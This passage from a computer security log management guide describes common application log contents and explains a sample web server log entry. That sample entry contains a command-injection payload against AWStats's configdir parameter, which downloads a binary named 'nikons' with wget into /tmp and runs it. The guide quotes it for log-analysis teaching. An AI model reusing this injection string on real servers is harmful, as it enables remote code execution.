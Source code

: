 Some applications generate their own log files, while others use the logging capabilities of the OS on
which they are installed. Applications vary significantly in the types of information that they log. The
following lists some of the most commonly logged types of information and the potential benefits of
each:9
 Client requests and server responses, which can be very helpful in reconstructing sequences of
events and determining their apparent outcome. If the application logs successful user
authentications, it is usually possible to determine which user made each request. Some
applications can perform highly detailed logging, such as e-mail servers recording the sender,
recipients, subject name, and attachment names for each e-mail; Web servers recording each URL
requested and the type of response provided by the server; and business applications recording
which financial records were accessed by each user. This information can be used to identify or
investigate incidents and to monitor application usage for compliance and auditing purposes.
 Account information such as successful and failed authentication attempts, account changes
(e.g., account creation and deletion, account privilege assignment), and use of privileges. In
addition to identifying security events such as brute force password guessing and escalation of
privileges, it can be used to identify who has used the application and when each person has used
it.
 Usage information such as the number of transactions occurring in a certain period (e.g., minute,
hour) and the size of transactions (e.g., e-mail message size, file transfer size). This can be useful
for certain types of security monitoring (e.g., a ten-fold increase in e-mail activity might indicate
a new e-mail–borne malware threat; an unusually large outbound e-mail message might indicate
inappropriate release of information).
 Significant operational actions such as application startup and shutdown, application failures,
and major application configuration changes. This can be used to identify security compromises
and operational failures.
Much of this information, particularly for applications that are not used through unencrypted network
communications, can only be logged by the applications, which makes application logs particularly
valuable for application-related security incidents, auditing, and compliance efforts. However, these logs
are often in proprietary formats that make them more difficult to use, and the data they contain is often
highly context-dependent, necessitating more resources to review their contents.
Figure 2-3 contains a sample log entry from a Web server log, along with an explanation of the
information recorded in the entry.

8
 A single implementation of an application could also be used by multiple organizations. For example, a parent organization
could host an application that its member agencies all use. The logs for the agencies’ use of the application would most
likely be managed by the parent organization, but each individual agency might also have the ability to review the log
information for its own users. 9
 An organization should consider having a policy that defines the logging requirements for custom applications developed for
it. Such a policy helps to ensure that applications will log the information necessary to support the security of the
application and the auditing of its use.
2-5
GUIDE TO COMPUTER SECURITY LOG MANAGEMENT
172.30.128.27 - - [14/Oct/2005:05:41:18 -0500] "GET /awstats/awstats.pl?config
dir=|echo;echo%20YYY;cd%20%2ftmp%3bwget%20192%2e168%2e1%2e214%2fnikons%3bchmod%20%2bx%
20nikons%3b%2e%2fnikons;echo%20YYY;echo| HTTP/1.1" 302 494
172.30.128.27
IP address of the host that initiated the request
-
Indicates that the information was not available (this server is not configured to put any
 information in the second field)
-